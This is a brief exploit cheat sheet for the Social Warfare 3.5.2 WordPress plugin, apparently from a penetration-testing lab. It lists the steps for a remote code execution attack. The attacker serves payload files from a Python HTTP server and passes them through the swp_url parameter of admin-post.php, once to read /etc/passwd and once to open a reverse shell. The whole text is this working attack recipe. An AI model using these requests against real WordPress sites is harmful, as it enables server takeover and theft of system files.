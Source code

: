 # Social-Warfare-3.5.2

- Start python server
sudo python3 -m http.server 80

- In browser - /etc/passwd
http://192.168.231.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.45.195:80/etc-passwd.txt

- In browser - Reverse Shell
http://192.168.231.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.45.195:80/shell.txt

